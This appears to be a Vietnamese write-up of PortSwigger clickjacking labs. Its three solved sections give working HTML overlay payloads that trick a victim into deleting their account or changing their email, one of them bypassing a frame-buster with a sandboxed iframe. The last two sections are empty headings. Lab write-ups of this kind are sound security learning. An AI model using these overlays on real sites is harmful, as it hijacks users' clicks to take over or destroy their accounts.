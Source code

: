 # 1. Basic clickjacking with CSRF token protection
Ta vào exploit server và config đoạn HTML sau:
```
<style>
#target_website{
  position: relative;
  width: 600px;
  height: 600px;
  opacity: 0.00001;
  z-index: 2;
}
#decoy_website{
  position: absolute;
  width: 300px;
  height: 400px;
  z-index: 1;
}
#click{
  width: 144px;
  height: 34px;
  position: relative;
  top: 480px;
  left: 19px;
  border-radius: 30px;
}
</style>
<body>
  <div id="decoy_website">
    <button id="click">Click me</button>
  </div>
  <iframe id="target_website" src="https://0a2c004d03768f27c0ac86a700870048.web-security-academy.net/my-account"></iframe>
</body>
```

Đoạn XML trên sẽ tạo một `<iframe>` trỏ tới website có lỗ hổng clickjacking, làm mờ thẻ `<iframe>`, sau đó đặt 1 button đè lên button "Delete account". Khi user click vào button, request xóa user sẽ được gửi đi.

Sau khi click "Deliver to victim", kết quả thành công.

# 2. Clickjacking with form input data prefilled from a URL parameter
Để giải bài lab, ta cần đổi email của user. Nhận thấy nếu đặt query string trong email, ví dụ `/my-account?email=attacker@gmail.com` thì trong ô input của email sẽ tự động được gán giá trị "attacker@gmail.com"

Vào exploit server và cấu hình đoạn HTML sau:
```
<style>
#target_website{
  position: relative;
  width: 600px;
  height: 600px;
  opacity: 0.9;
  z-index: 2;
}
#decoy_website{
  position: absolute;
  width: 300px;
  height: 400px;
  z-index: 1;
}
#click{
  width: 136px;
  height: 34px;
  position: relative;
  top: 433;
  left: 32px;
  border-radius: 30px;
}
</style>
<body>
  <div id="decoy_website">
    <button id="click">Click me</button>
  </div>
  <iframe id="target_website" src="https://0a00002103d37562c01a91bf00d600cb.web-security-academy.net/my-account?email=attacker@gmail.com"></iframe>
</body>
```

Sau khi click "Deliver to victim", kết quả thành công.

# 3. Clickjacking with a frame buster script
Website có sử dụng Javascript để chặn việc website bị framed:

![image](https://user-images.githubusercontent.com/103978452/210330878-b459d61f-06fb-4b79-827b-19301fd75ede.png)

Tuy nhiên với thuộc tính `sandbox="allow-forms"`, ta có thể disable Javascript. Cấu hình đoạn HTML sau trong exploit server:

```
<style>
#target_website{
  position: relative;
  width: 600px;
  height: 600px;
  opacity: 0.9;
  z-index: 2;
}
#decoy_website{
  position: absolute;
  width: 300px;
  height: 400px;
  z-index: 1;
}
#click{
  width: 136px;
  height: 34px;
  position: relative;
  top: 433;
  left: 32px;
  border-radius: 30px;
}
</style>
<body>
  <div id="decoy_website">
    <button id="click">Click me</button>
  </div>
  <iframe id="target_website" src="https://0ab100360375e346c04af916004800ba.web-security-academy.net/my-account?email=attacker@gmail.com" sandbox="allow-forms"></iframe>
</body>
```

Sau khi click "Deliver to victim", kết quả thành công.
# 4. Exploiting clickjacking vulnerability to trigger DOM-based XSS

# 5. Multistep clickjacking
